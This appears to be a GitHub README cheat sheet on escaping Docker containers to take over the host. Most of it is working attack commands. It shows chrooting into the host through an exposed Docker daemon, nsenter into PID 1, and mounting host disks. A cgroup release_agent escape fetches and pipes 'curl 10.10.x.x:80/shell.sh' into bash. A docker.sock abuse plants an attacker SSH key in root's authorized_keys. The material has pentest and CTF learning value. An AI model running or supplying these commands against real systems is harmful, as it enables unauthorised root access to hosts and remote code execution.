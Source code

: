 # Docker-Escape

Docker is an open-source containerization platform used for developing, deploying, and managing applications in lightweight virtualized environments called containers.

![OnPaste 20220611-182248](https://user-images.githubusercontent.com/106917304/173188805-30523d98-d755-4b94-8740-7a929aa28d6b.png)


# Exploitation

### Determining if we're in a container

1. Listing running processes
```markdown
ps aux
```
If there are few no. of process is running then you might be in docker.

2. Looking for .dockerenv
```markdown
cd / && ls -lah
```
If you see .dockerenv in base dir, then you're in a container.

3. Those pesky cgroups

Navigating to "/proc/1" and then catting  the "cgroups" file (cat cgroup).

4. Use following code to Verify you are in Docker
```markdown
if [ -f /.dockerenv ]; then
    echo "I'm inside matrix ;(";
else
    echo "I'm living in real world!";
fi
```


## Docker Escaping Techniques

### 1. Escape via Exposed Docker Daemon
Run the following cmnd

If we're in bash
```markdown
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

If we're in alpine
```markdown
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

You can see the images repo
```markdown
docker images
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```
NOTE: ubuntu:18.04 is the image repo

### 2. Shared Namespaces
By using ps aux you can view the process with processID see pid 1 is running root it is the first one that executed when the system is booted.

Exploiting it with nsenter
```markdown
nsenter --target 1 --mount sh
```

### 3. Escape By Mounting File System
```markdown
lsblk
mount /dev/sda2 /mnt
cd /mnt/root
```
NOTE: In this case sda2 is the dir we mount.

### 4. Misconfigured Privileges
list out all the capabilities
```markdown
capsh --print
capsh --print | grep sys_admin
```
If we get sys_admin capability, means the system is vuln.

On attacker VM.

First make a shell.sh and set python server and set listner.

On target machine.

```markdown
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.x.x:80/shell.sh | bash' >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```

### 5. Exploitation of docker.sock in /var/run or /run if you're ROOT

Check /var/run dir for docker.sock file if it's there and you're root then you can exploit it. First see that you can use curl cmd if not then wget curl from your system for static curl see the arch of target machine and get the static curl from [Resource](https://github.com/moparisthebest/static-curl)


STEP1: Listing the images of the container of the host
```markdown
./curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

STEP2: Now generate id_rsa in your machine
```markdown
ssh-keygen -t rsa
cat key.pub
```

STEP3: Creating a new docker container with image ID
```markdown
./curl -X POST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/create -d '{"Detach":true,"AttachStdin":false,"AttachStdout":true,"AttachStderr":true,"Tty":false,"Image":"c3:latest","HostConfig":{"Binds": ["/:/var/tmp"]},"Cmd":["sh", "-c", "echo ssh-rsa AAAA..............xfoS+Yb2cW4y9cKcBWpVIiNMEtMX7sIB/0cKl8W/mY4u1UeRzWOoIIew6hqlaWCW6WKeSiCrNzEEj.........................P0/BMcKBS2pzqct2rTQ/LfFFM= root@kali >> /var/tmp/root/.ssh/authorized_keys"]}'
```

NOTE: replace "c3:latest" with the docker image name that you'll get from step1. eg: "RepoTags":["c3:latest"]

Now you'll see you created a docker and get the id. eg: {"Id":"c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2","Warnings":[]}


STEP4: Now we gonna use the id and start the docker
```markdown
./curl -X POST -H "Content-Type:application/json" --unix-socket /var/run/docker.sock http://localhost/containers/c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2/start
```


STEP5: Login SSH via your private key as user root and now you're root
```markdown
ssh -i key root@10.10.x.x
```

